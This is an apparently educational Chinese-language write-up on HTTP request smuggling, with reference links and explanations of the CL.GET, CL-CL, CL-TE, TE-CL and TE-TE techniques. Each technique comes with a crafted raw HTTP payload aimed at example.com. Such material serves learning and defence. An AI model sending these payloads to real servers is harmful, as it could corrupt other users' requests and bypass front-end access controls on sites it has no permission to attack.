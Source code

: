 # HTTP_request_smuggling

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**文章**
- [HTTP Desync Attacks: Request Smuggling Reborn | Blog - PortSwigger](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn)
- [HTTP Desync Attacks: Smashing into the Cell Next Door ](https://xz.aliyun.com/t/5978) - 上面的翻译版
- [What is HTTP request smuggling? Tutorial & Examples](https://portswigger.net/web-security/request-smuggling)
- [HTTP request smuggling](https://saucer-man.com/information_security/368.html)
- [一篇文章带你读懂 HTTP Smuggling 攻击](https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/)
- [协议层的攻击——HTTP请求走私](https://paper.seebug.org/1048/)
- [Breaking the chains on HTTP Request Smuggler](https://portswigger.net/research/breaking-the-chains-on-http-request-smuggler)
- [从一道题深入HTTP协议与HTTP请求走私](https://xz.aliyun.com/t/6631)
- [流量夹带(HTTP Request Smuggling) 检测方案的实现](https://blog.riskivy.com/%e6%b5%81%e9%87%8f%e5%a4%b9%e5%b8%a6http-request-smuggling-%e6%a3%80%e6%b5%8b%e6%96%b9%e6%a1%88%e7%9a%84%e5%ae%9e%e7%8e%b0/)

**靶场**
- [ZeddYu/HTTP-Smuggling-Lab](https://github.com/ZeddYu/HTTP-Smuggling-Lab)

**burp扩展**
- [PortSwigger/http-request-smuggler](https://github.com/PortSwigger/http-request-smuggler)

**相关工具**
- [defparam/smuggler](https://github.com/defparam/smuggler) - Python 3 编写的 HTTP 请求走私检测工具

---

# 漏洞产生的原因

HTTP Request Smuggling 最初是由 WatchFire1 于 2005 年记录下来的，由于难以利用和危害性无法控制，该问题一直处于被忽略的状态。直到 2019 年的 BlackHat USA 上，PortSwigger 的 James Kettle 在他的议题——HTTP Desync Attacks: Smashing into the Cell Next Door 中提出了一套较为完善的利用流程，这个漏洞才被人熟知。

上面我们说到了 HTTP 协议的基本原理，其中一个 HTTP 请求中可以有多种方式来指定消息的长度，比如：Content-Length、Transfer-Encoding。

但是当一个请求中同时出现了 2 种方法，就会发生一些问题。HTTP 规范 (RFC2616) 中定义，如果接收的消息同时包含传输编码头字段 (Transfer-Encoding) 和内容长度头 (Content-Length) 字段，则必须忽略后者。然而，后端服务器有自己的想法，它会同时处理。

---

# 几种走私请求利用方法

**CL 不为 0 的 GET 请求**

假设前端代理服务器允许 GET 请求携带请求体，而后端服务器不允许 GET 请求携带请求体，它会直接忽略掉 GET 请求中的 Content-Length 头，不进行处理。这就有可能导致请求走私。

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器收到该请求，通过读取 Content-Length，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对 Content-Length 进行处理，由于 Pipeline 的存在，它就认为这是收到了两个请求，分别是
```
GET / HTTP/1.1\r\n
Host: example.com\r\n
```
```
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
```

**CL-CL**

假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误，但是中间代理服务器按照第一个 Content-Length 的值对请求进行处理，而后端源站服务器按照第二个 Content-Length 的值进行处理, 这样便有可能引发请求走私。

此时恶意攻击者可以构造一个特殊的请求

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```
中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 7。当读取完前 7 个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母 a，对于后端服务器来说，这个 a 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，假设请求如下所示。

```
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```
从前面我们也知道了，代理服务器与源站服务器之间一般会重用 TCP 连接。

这时候正常用户的请求就拼接到了字母 a 的后面，当后端服务器接收完毕后，它实际处理的请求其实是

```
aGET /index.html HTTP/1.1\r\n
Host: example.com\r\n
```
这时候用户就会收到一个类似于 aGET request method not found 的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于 CSRF 的攻击方式。

**CL-TE**

所谓 CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 Content-Length 这一请求头，而后端服务器会遵守 RFC2616 的规定，忽略掉 Content-Length，处理 Transfer-Encoding 这一请求头。

chunk 传输数据格式如下，其中 size 的值由 16 进制表示。

```
[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]
```
此时恶意攻击者可以构造一个特殊的请求

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
G
```
由于前端服务器处理 Content-Length，所以这个请求对于它来说是一个完整的请求，请求体的长度为 6，也就是

```
0\r\n
\r\n
G
```
当请求包经过代理服务器转发给后端服务器时，后端服务器处理 Transfer-Encoding，当它读取到 0\r\n\r\n 时，认为已经读取到结尾了，但是剩下的字母 G 就被留在了缓冲区中，等待后续请求的到来。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求。
```
GPOST / HTTP/1.1\r\n
Host: example.com\r\n
......
```

**TE-CL**

所谓 TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理 Transfer-Encoding 这一请求头，而后端服务器处理 Content-Length 请求头。

构造数据包

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
由于前端服务器处理 Transfer-Encoding，当其读取到 0\r\n\r\n 时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 Content-Length 请求头，当它读取完 12\r\n 之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是
```
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

**TE-TE**

TE-TE，也很容易理解。当收到存在两个请求头的请求包时，前后端服务器都处理 Transfer-Encoding 请求头，这确实是实现了 RFC 的标准。不过前后端服务器毕竟不是同一种，因而我们可以对发送的请求包中的 Transfer-Encoding 进行某种混淆操作，从而使其中一个服务器不处理 Transfer-Encoding 请求头。从某种意义上还是 CL-TE 或者 TE-CL。

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

